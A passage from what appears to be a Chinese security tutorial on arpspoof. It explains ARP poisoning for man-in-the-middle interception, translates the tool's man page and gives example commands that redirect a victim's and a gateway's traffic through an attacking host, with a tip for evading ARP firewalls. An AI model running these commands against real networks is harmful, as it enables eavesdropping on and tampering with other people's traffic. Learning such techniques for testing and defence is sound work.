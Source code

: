       /usr/share/dsniff/dsniff.services  
              Default trigger table  
  
       /usr/share/dsniff/dsniff.magic  
              Network protocol magic  
  
参见；另请参阅  
       
       arpspoof(8), libnids(3), services(5), magic(5)  
       
       


arpspoof
arp毒化的原理，简单的说就是伪造MAC地址与IP的对应关系，导致数据包由中间人转发出去,arp 毒化有双向（remote）和单向（oneway）两种方式。双向方式将对两个目标的ARP缓存都进行毒化，对两者之间的通信进行监听。单向方式只会监听从第一个目标到第二个目标的单向通信内容。一般来说，我们会选择使用双向欺骗的方式来获取所有的数据包进行嗅探分析。若目标主机开启了ARP防火墙怎么办？直接欺骗会引发报警且无效果。这时就是单向ARP毒化大显神威的时候了。只要路由器没有对IP和MAC进行绑定，我们就可以只欺骗路由器，使从路由器发给目标主机的数据包经过中间人，完成我们的攻击。
```
root@kali:~# arpspoof -h
Version: 2.4
Usage: arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

名字
       arpspoof - 在交换式网络截获包
概要
       arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
描述 
	   arpspoof 通过伪造ARP响应,重定向局域网中一个目标主机(或所有主机)上的数据包 到 局域网中的另一个主机上。
	   这在交换式网络上嗅探流量是一个非常有效的方法
	   注意：内核IP转发(或一个实现相同功能的用户程序，如 fragrouter(8))必须提前打开。

选项
       -i 网卡接口        指定使用的网卡接口

       -c own|host|both   
	   指定在恢复arp配置时使用的硬件地址;在清理时，可以用自己的地址和主机的地址发送数据包。
	   用一个假的硬件地址发送数据包可能会破坏与某些switch/ap/bridge 配置的连接，
	   但是它比使用自己的地址更可靠，这是arpspoof事后清理的默认方式。

       -t target    指定要 ARP毒化 的主机(如果没有指定，默认局域网所有主机). 可以重复指定多个主机。
       -r           毒化两个主机(主机和目标)以捕获两个方向的流量。(只在与 -t 联合使用才有效)
       host         指定你希望拦截数据包的主机(通常是本地网关)。

参见；另请参阅
       dsniff(8), fragrouter(8)


	   
// 使用ARP毒化，重定向受害者的流量传送给攻击者。
root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1    

// 第二个ARP毒化攻击使网关的数据重定向到攻击者的机器(流量由网关到攻击者再到受攻击者)
root@bt:~# arpspoof -i eth0 -t 192.168.1.1  192.168.1.2   


root@bt:~# arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
root@bt:~# arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
```
arpspoof 启用 arp欺骗，将自己网卡的IP地址伪装成指定IP地址的MAC持续不断的发送假的ARP响应包给一台或多台主机，以“毒害”其ARP缓存表。一旦成功，即可以用别的嗅探工具来“接收”发送到本地的数据包。与Ettercap不同的是， arpspoof并不进行真正的“嗅探”，它只是简单的进行ARP欺骗，本地主机 必须启动内核的IP Forwarding功能（或者使用fragrouter这样的工具），否则，所有“转向”发到本地的数据包就如同进了黑洞， 正常的网络通信将无法进行， 而一旦启动了本地的IP Forwarding，内核将自动对本地收到的目的IP却是别处的数据包进行转发，正常的通信自然可以进行。这样，就可以进行后续的工作，包括分析嗅 探得到的数据包、修改数据包中的某些信息以重新转发等等。
